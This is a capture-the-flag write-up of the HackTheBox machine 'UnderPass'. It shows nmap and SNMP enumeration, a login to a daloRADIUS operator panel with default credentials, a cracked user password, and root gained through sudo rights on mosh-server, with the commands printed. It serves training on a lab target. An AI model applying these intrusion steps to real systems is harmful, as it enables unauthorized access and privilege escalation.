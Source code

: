 ```yaml
---
layout: post
title: "UnderPass"
date: 2024-12-28
categories: hackthebox
---
```



starting with nmap

```bash
# Nmap 7.94SVN scan initiated Sat Dec 21 20:11:10 2024 as: /usr/lib/nmap/nmap -sC -sV -p- -T4 -oN nmap 10.129.248.201
Warning: 10.129.248.201 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.248.201 (10.129.248.201)
Host is up (0.090s latency).
Not shown: 65420 closed tcp ports (reset), 113 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec 21 20:26:56 2024 -- 1 IP address (1 host up) scanned in 945.64 seconds
➜  underpass git:(main) ✗
```


just an apache server , trying to fuzz but no result .

I was clueless so I ran another scan against UDP ports

```bash
sudo nmap -sU -T4 -oN nmap_udp 10.129.79.195 -Pn
```

![[Pasted image 20241221235520.png]]

let's enumerate SNMP 


```bash
snmpwalk -v2c -c public 10.129.79.195
```

![[Pasted image 20241221232505.png]]


so we got domain and `daloradius` which is a CMS

![[Pasted image 20241221232613.png]]


I used this https://github.com/lirantal/daloradius/blob/master/  , to enumerate website 

so I found some files like http://underpass.htb/daloradius/Dockerfile


![[Pasted image 20241221232838.png]]

I tried the default creds against http://underpass.htb/daloradius/app/users/login.php but useless .

after some search in GitHub , another login portal was discovered 
http://underpass.htb/daloradius/app/operators/login.php

login with default creds 


we can find a list of users 

![[Pasted image 20241221233105.png]]


![[Pasted image 20241221233128.png]]

[crackstation](https://crackstation.net/) to crack the hash 


`underwaterfriends`

![[Pasted image 20241221233256.png]]



### root



```bash
sudo -l
```

![[Pasted image 20241221233338.png]]

when we `mosh-server` we got KEY and port

![[Pasted image 20241221233419.png]]


using `mosh-client` we can get root

```bash
 MOSH_KEY=S1bavDXgiegwtNo04fZYVQ  mosh-client  127.0.0.1 60001
```


![[Pasted image 20241221233613.png]]